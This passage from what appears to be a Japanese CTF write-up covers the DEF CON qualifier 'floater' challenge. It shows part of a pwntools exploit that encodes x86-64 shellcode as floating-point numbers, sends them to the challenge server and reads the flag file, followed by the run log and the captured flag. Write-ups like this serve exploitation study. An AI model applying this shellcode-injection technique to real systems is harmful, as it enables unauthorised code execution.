 ```python
    '\x48\x31\xc0',   # xor rax, rax
    '\x48\xff\xc0',   # inc rax
    '\x48\x89\xc7',   # mov rdi, rax
    '\x0f\x05\x90',   # syscall ; nop
]

log.info('send shellcode')

for s in shellcode:
    f = struct.unpack('!f', (s + '\x68')[::-1])[0]
    s = '%.64lg' % f
    print s
    r.sendline(s)

for i in range(0, 25 - len(shellcode)):
    r.sendline('0')

pause(1)

r.clean()

r.sendline('flag'.ljust(0x7f, '\x00'))

r.interactive()
```

    $ ./exploit.py remote
    [+] Opening connection to floater_f128edcd6c7ecd2ceac15235749c1565.quals.shallweplayaga.me on port 754: Done
    [*] send shellcode
    8709413465159098708262912
    7260827546538835038961664
    7538266577407426695266304
    2726026692719540090961920
    7933764770347759481913344
    7933764770347759481913344
    7933764770347759481913344
    5440912704940064219594752
    7878277540634793454075904
    9351655306829370457325568
    9300889867138521771278336
    7940848320072063949733888
    2460541152010712224104448
    5440912704940064219594752
    7538266577407426695266304
    8709413465159098708262912
    7349374223935650100412416
    7260827546538835038961664
    5440912704940064219594752
    7349374223935650100412416
    7260827546538835038961664
    7291227780772308380024832
    7538266577407426695266304
    5440912704940064219594752
    [+] Waiting: Done
    [*] Switching to interactive mode
    The flag is: l00ks_l1k3_w3_g0t_0ur53lv35_4_fl04t3r
    \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00flag\x00\x00\x00\x00[*] Got EOF while reading in interactive
    $ 
    [*] Closed connection to floater_f128edcd6c7ecd2ceac15235749c1565.quals.shallweplayaga.me port 754


[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)